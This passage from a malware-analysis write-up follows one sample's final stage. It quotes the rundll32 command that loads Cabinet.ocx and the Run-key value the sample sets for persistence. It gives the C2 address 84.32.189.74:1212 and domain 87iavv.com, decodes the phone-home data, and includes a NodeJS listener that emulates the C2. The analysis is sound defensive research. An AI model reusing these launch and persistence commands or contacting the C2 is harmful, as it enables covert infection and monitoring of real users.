


Then the string `cmd /c cd C:\Users\User\AppData\Roaming\DefaultDirectory&&cmd /c timeout 1&&cmd /c C:\Windows\SysWOW64\rundll32.exe /sta {EA6FC2FF-7AE6-4534-9495-F688FEC7858C} "C:\Users\User\AppData\Local\Temp"` is built and executed, creating a new `rundll32.exe` process, and loads the target of the COM object: `C:\Users\User\AppData\Roaming\DefaultDirectory\Cabinet.ocx`. Finally, the process cleans up after itself by running `cmd /c taskkill /f /im cc.exe`.

# Stage 4 - `Cabinet.ocx`

Trying to load this file into IDA proves to be extremely difficult because it is filled with anti-static analysis and anti-debugging tricks such as junk code, ICE checks, basically [every trick there is](https://anti-debug.checkpoint.com/). For the last stage, we'll be using **Process Monitor** to look at the behavior of this file. We do this by opening the filters window and creating a rule for *ProcessName is rundll32.exe*, then opening a command prompt and running the command from above: `cmd /c cd C:\Users\User\AppData\Roaming\DefaultDirectory&&cmd /c timeout 1&&cmd /c C:\Windows\SysWOW64\rundll32.exe /sta {EA6FC2FF-7AE6-4534-9495-F688FEC7858C} "C:\Users\User\AppData\Local\Temp"`.

Immediately, **Process Monitor** is filled with logs of what the program is doing, most notably, creating a persistence method by creating a key at `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\RunDll` with a value of `C:\Windows\SysWOW64\rundll32.exe /sta {EA6FC2FF-7AE6-4534-9495-F688FEC7858C} "Keyboard"`:



Values put in `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` are run upon startup.

Lastly, scrolling down to the bottom of **Process Monitor** shows that TCP connections are being sent and received from a C2 IP address: `84.32.189.74:1212` which resolves to the domain `87iavv.com`.

# Emulating the C2 TCP protocol

Initial phone home packet from victim to C2 which contains the keyboard layout/country name, windows username, installed anti-virus, and currently active window:


We can pull up the full TCP stream to get a better idea of the conversation between the victim and C2:



It appears that the malware phones home, sending the information about the victim, then sends a `16` packet, probably to denote that the message has been received. Then every couple of seconds, we see that the C2 server sends a `353.1532` packet, and the victim responds with `345.<Active Window Name>153216`.

We can reverse engineer this TCP protocol by updating the `hosts` file, adding this line:

```
127.0.0.1 87iavv.com
```

Which will make the C2 domain resolve to localhost. Then we can write a NodeJS script that will listen on port 1212, printing out any incoming connections and data from victim -> C2, then we can emulate the C2 -> victim messaging by sending `333533a931353332` as a hex buffer like we saw in the packets. The code could look something like this:

```javascript
const net = require('net');
async function sleep() {
	return new Promise((resolve) => {
		setTimeout(() => resolve(), 5000);
	});
}

let alreadyWaiting = false;

const server = net.createServer((socket) => {
	console.log(`Client connected: ${socket.remoteAddress}:${socket.remotePort}`);
	socket.on('data', async (data) => {
		console.log(`Message from client: ${data}`);
		if (!alreadyWaiting) {
			alreadyWaiting = true;
			await sleep();
			// sends message back to victim, instructing malware to send current window to C2
			socket.write(Buffer.from('333533a931353332', 'hex'));
			alreadyWaiting = false;
		}		
	});	
	socket.on('end', () => {
		console.log('Client disconnected');
	});
});

server.listen(1212, () => {
	console.log('Server listening on port 1212');
});
```

We can run the same command that is run on the victim machine to run the malware:



And then run our NodeJS script by typing `node listener.js`:



We see the same kind of behavior in this response as we did in the Wireshark capture of the actual C2. The initial client packet contains the victim's machine information and their current window, and every packet after that responds to the `333533a931353332` payload with what window is currently open.

I later found out that the only part of the C2 -> victim packet that is required to get the current window response is `333533a9`. I tried to loop through thousands of other possible responses to see if there were any other commands that I could get it to respond to, but didn't find anything. I would be surprised if malware that acts this way doesn't also facilitate a way for the C2 to connect to the via reverse shell, but I did not see any behavior that seemed to indicate this.
